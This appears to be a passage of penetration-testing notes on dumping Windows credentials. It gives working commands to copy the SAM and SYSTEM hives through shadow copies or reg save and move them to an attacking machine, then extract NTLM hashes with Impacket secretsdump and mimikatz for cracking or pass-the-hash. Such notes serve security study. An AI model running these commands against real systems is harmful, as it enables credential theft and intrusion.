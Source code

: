 This service is used to make backups of files or entire drives. By doing this we can dump SAM:
1. Run `cmd.exe` prompt **as administrator** (important !)
2. Create shadow copy of `C:\` drive using `wmic`
3. Verify successful creation
4. Copy SAM database from shadow copy of volume to attacking machine for hash extraction.

In terms of commands, this is what we run:
```
wmic shadowcopy call create Volume='C:\'

vssadmin list shadows

copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\Users\<username>\Desktop\sam-shadow-copy

copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\Users\<username>\Desktop\system-shadow-copy
```

**Registry Hives**

Can dump SAM database content via Windows Registry using `reg.exe`:
```
reg save HKLM\SAM C:\Users\<username>\Desktop\sam-reg
reg save HKLM\SYSTEM C:\Users\<username>\Desktop\system-reg
```
Then SCP files back to attacking machine for extracting.

**Extracting Hashes**

Can use Impacket SecretsDump script (https://github.com/fortra/impacket/blob/master/examples/secretsdump.py) with SAM and SYSTEM files passed as parameters to decrypt secrets:

```
python3.9 impacket/examples/secretsdump.py -sam /path/to/sam -system /path/to/system LOCAL
```

This will only yield NTLM hashes for local account access. For Active Directory NTLM hashes (which Metasploit HashDump gives), an additional hive is needed: `HKLM\Security` - this file also includes Kerberos keys, domain-cached credentials and security questions

Alternatively can use mimikatz `sekurlsa` module:

```
privilege::debug
sekurlsa::logonPasswords
```

Can then either HashCat these bitches for plaintext creds or exploit via other means e.g. Pass-the-Hash attacks


## Password attacks

### Policy Enumeration

```
net accounts
```
